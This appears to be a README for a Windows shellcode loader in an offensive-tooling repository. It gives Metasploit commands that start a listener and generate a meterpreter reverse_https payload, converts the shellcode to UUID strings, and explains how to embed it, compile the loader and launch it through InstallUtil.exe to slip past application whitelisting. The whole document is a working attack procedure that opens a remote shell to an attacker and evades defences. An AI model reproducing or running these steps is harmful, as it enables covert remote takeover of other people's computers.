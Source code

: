 ```
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST eth0; set LPORT 443; exploit"
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=eth0 LPORT=443 -f raw -o shell.bin
python3 payload_uuid.py -p shell.bin > shell.txt
```
In notepad++ Ctrl+h in Replace tab add in Find what field ^(.*)$ and in Replace with field "\1",
Remove from the last line the comma.
<br>
<br>
![image](https://github.com/user-attachments/assets/6c6aeb08-b354-4f0a-9e07-7adb1fc12b80)
<br>
<br>
Add the final shellcode to the "Shellcode" variable.
Compile as Release .
<br>
<br>
![image](https://github.com/user-attachments/assets/6c770e2f-f0c7-4a4b-98ab-a6496ead6438)
<br>
<br>
In order to run the loader with installutil:
<br>
``` C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false .\solomon.exe```
